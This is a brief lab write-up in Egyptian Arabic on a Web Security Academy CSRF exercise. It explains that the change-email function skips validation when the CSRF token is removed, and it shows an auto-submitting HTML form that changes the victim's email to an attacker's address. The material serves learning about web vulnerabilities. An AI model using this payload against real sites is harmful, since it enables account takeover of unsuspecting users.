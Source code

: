 

المشكلة في اللاب ده في فانكشن ال `change email` برضو والمشكلة هي انه مش بيعمل `check` لما نمسح ال `csrf token` ولكن لما تبقي موجودة بيعمل `check` عليها ويشوف صح ولا غلط

ده كان ال `form` قبل التعديل
```HTML
<form class="login-form" name="change-email-form" action="[/my-account/change-email](view-source:https://0a1400450486873582befbd7000e00f8.web-security-academy.net/my-account/change-email)" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="">
	<input required name="csrf" value="Aar2hkT6L2RkdZ9rwhDzW1gmbKqx8rZH">
	<button class='button' type='submit'> Update email </button>
</form>
```
وده بعد ما عدلته و حطيته في السيرفر
```HTML
<form action="https://0a1400450486873582befbd7000e00f8.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="hacker@test.com">
</form>
<script> document.forms[0].submit(); </script>
```

### نتعلم اي من اللاب ده ؟

* نجرب نمسح ال `csrf token` ولو الفانكشن اشتغلت يبقي ثغرة